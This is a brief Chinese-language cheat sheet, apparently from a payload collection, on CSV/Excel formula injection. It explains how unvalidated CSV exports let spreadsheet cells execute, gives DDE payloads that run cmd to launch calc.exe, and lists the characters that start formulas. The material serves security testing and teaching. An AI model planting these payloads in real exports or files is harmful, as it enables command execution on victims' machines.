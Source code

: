 # CSV Excel公式注入
许多Web应用程序允许用户将诸如发票或者用户设置的模板等内容下载为CSV文件。许多用户使用Excel，Libre Office或者Open Office打开CSV文件。当一个Web应用程序没能正确验证CSV文件的内容时，将导致一个或多个单元格被执行。

## 攻击

使用动态数据交换的基本攻击：
```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0

Technical Details of the above payload:
cmd is the name the server can respond to whenever a client is trying to access the server
/C calc is the file name which in our case is the calc(i.e the calc.exe)
!A0 is the item name that specifies unit of data that a server can respond when the client is requesting the data

```

任何公式都可以以下列字符开始：
```
=
+
–
@
```

## 致谢
* https://owasp.org/index.php/CSV_Excel_Macro_Injection
* https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection
* https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/


